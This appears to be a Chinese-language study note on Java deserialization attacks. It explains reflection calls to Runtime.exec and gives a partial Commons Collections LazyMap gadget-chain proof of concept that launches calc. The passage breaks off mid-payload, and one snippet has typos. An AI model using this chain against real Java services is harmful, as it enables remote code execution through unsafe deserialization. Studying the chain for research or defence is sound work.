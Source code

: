 由于getmethod传参需要传入设置原型，多个参数的时候，一般都用 new Class[],表示为类的数组。
创建的时候就可以用Object实例化。
空参数的class原型是new Class[0]
获得getMethod的参数原型，是实际方法参数原型的原型，比如实际的原型是object.class,那么getMethod的原型就要向上访问一级，即class.class,注意一下getmethod的第二个参数。

```java
Class c = Runtime.class;
        Method getRuntimeMethod  = c.getMethod("getRuntime",null);//null的原型是空类数组原型
        Runtime r = (Runtime) getRuntimeMethod.invoke(null,null);//第一个是空对象，第二个是空字符串
        Method execMethod = c.getMethod("exec",String.class);
        execMethod.invoke(r,"calc");
```
```java
new InvokerTransformer("getMethod",new class[]{String.class,class[].class},new object[]{null}).transfor(rumtime.class);
```
## 流程图
![](https://cdn.nlark.com/yuque/0/2023/jpeg/34502958/1683938236647-080036a2-d2ba-429b-b9b5-b8c4e7395e2a.jpeg)

# lazymap
## poc
```java
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

public class CommonCollections12 {
    public static Object generatePayload() throws Exception {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] { String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] { Object.class, Object[].class }, new Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class }, new Object[] { "calc" })
        };
        Transformer transformerChain = new ChainedTransformer(transformers);

        Map innermap = new HashMap();
        innermap.put("value", "xxx");
        Map outmap = LazyMap.decorate(innermap,transformerChain);
        //通过反射获得AnnotationInvocationHandler类对象
        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        //通过反射获得cls的构造函数
        Constructor ctor = cls.getDeclaredConstructor(Class.class, Map.class);
        //这里需要设置Accessible为true，否则序列化失败
        ctor.setAccessible(true);
```